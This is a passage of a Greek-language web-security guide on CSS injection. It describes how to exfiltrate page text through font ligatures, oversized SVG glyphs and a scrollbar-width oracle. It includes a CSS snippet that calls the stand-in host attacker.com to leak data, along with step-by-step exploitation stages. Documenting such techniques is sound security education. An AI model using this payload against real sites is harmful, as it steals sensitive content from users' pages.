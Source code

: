 Όταν αποκτάτε πρόσβαση σε αυτή τη σελίδα, το Chrome και το Firefox ανακτούν τα "?A" και "?B" επειδή το κείμενο του sensitive-information περιέχει τους χαρακτήρες "A" και "B". Αλλά το Chrome και το Firefox δεν ανακτούν το "?C" επειδή δεν περιέχει το "C". Αυτό σημαίνει ότι καταφέραμε να διαβάσουμε τα "A" και "B".

### Εξυπνηρία κειμένου (I): λιγατούρες <a href="#text-node-exfiltration-i-ligatures" id="text-node-exfiltration-i-ligatures"></a>

**Αναφορά:** [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

Η τεχνική που περιγράφεται εμπλέκει την εξαγωγή κειμένου από έναν κόμβο εκμεταλλευόμενη τις λιγατούρες γραμματοσειράς και παρακολουθώντας τις αλλαγές στο πλάτος. Η διαδικασία περιλαμβάνει αρκετά βήματα:

1. **Δημιουργία Προσαρμοσμένων Γραμμάτων**:

* Τα γράμματα SVG δημιουργούνται με γλυφές που έχουν το χαρακτηριστικό `horiz-adv-x`, το οποίο ορίζει ένα μεγάλο πλάτος για μια γλυφή που αντιπροσωπεύει μια ακολουθία δύο χαρακτήρων.
* Παράδειγμα γλυφής SVG: `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, όπου "XY" υποδηλώνει μια ακολουθία δύο χαρακτήρων.
* Αυτά τα γράμματα μετατρέπονται στη μορφή woff χρησιμοποιώντας το fontforge.

2. **Ανίχνευση Αλλαγών Πλάτους**:

* Χρησιμοποιείται CSS για να εξασφαλιστεί ότι το κείμενο δεν αναδιπλώνεται (`white-space: nowrap`) και για να προσαρμοστεί το στυλ της μπάρας κύλισης.
* Η εμφάνιση μιας οριζόντιας μπάρας κύλισης, με ξεχωριστό στιλ, λειτουργεί ως ένδειξη (οράκελ) ότι μια συγκεκριμένη λιγατούρα, και επομένως μια συγκεκριμένη ακολουθία χαρακτήρων, υπάρχει στο κείμενο.
* Το CSS που εμπλέκεται:

```css
body { white-space: nowrap };
body::-webkit-scrollbar { background: blue; }
body::-webkit-scrollbar:horizontal { background: url(http://attacker.com/?leak); }
```

3. **Διαδικασία Εκμετάλλευσης**:

* **Βήμα 1**: Δημιουργία γραμμάτων για ζεύγη χαρακτήρων με σημαντικό πλάτος.
* **Βήμα 2**: Χρησιμοποιείται ένα κόλπο βασισμένο στη μπάρα κύλισης για να ανιχνευθεί πότε η μεγάλη γλυφή πλάτους (λιγατούρα για ένα ζεύγος χαρακτήρων) απεικονίζεται, υποδηλώνοντας την παρουσία της ακολουθίας χαρακτήρων.
* **Βήμα 3**: Μετά την ανίχνευση μιας λιγατούρας, δημιουργούνται νέες γλυφές που αντιπροσωπεύουν τριών χαρακτήρων ακολουθίες, ενσωματώνοντας το ανιχνευμένο ζεύγος και προσθέτοντας έναν προηγούμενο ή διαδοχικό χαρακτήρα.
* **Βήμα 4**: Πραγματοποιείται η ανίχνευση της τριών χαρακτήρων λιγατούρας.
* **Βήμα 5**: Η διαδικασία επαναλαμβάνεται, αποκαλύπτοντας σταδιακά ολόκληρο το κείμενο.

4. **Βελτιστοποίηση**:

* Η τρέχουσα μέθοδος εκκίνησης με χρήση `<meta refresh=...` δεν είναι βέλτιστη.
* Μια πιο αποδοτική προσέγγιση θα μπορούσε να περιλαμβάνει το κόλπο `@import` στο CSS, βελτιώνοντας την απόδοση της εκμετάλλευσης.
